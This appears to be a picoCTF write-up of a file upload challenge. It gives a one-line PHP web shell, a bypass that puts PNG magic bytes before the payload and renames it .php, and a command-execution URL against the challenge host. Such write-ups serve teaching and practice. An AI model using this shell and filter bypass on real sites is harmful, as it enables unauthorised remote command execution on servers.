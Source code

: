 ![image](https://github.com/user-attachments/assets/c904ce5b-9fe3-480d-a5e7-31abb1737ac2)

It is given that it is going to be file upload attack.
And using wapalyzer i came to know that the website uses php.
Lets upload a php shell to get access.


<?php system($_GET["cmd"]); ?>

most simple php shell payload.

The website seems to check the first few characters of the file.

Lets add PNG before the payload and upload it. Also change the filename to .php and content type to application/php.



![image](https://github.com/user-attachments/assets/fc80143f-6b4d-47a0-aab7-0b1fc222e173)

Now lets test the shell.
http://atlas.picoctf.net:61117/uploads/web.png.php?cmd=id

![image](https://github.com/user-attachments/assets/f46a1081-1076-4bd8-b691-e54577d5fc16)

it's working, now how do we find the flag.

find / -name '*.txt'

paste this command to list all the txt files.

![image](https://github.com/user-attachments/assets/f85c6315-f7a5-49fe-bdd8-ff65b334b8f6)


![image](https://github.com/user-attachments/assets/84a3211a-d848-42e0-9680-ee2fdfad2ebe)


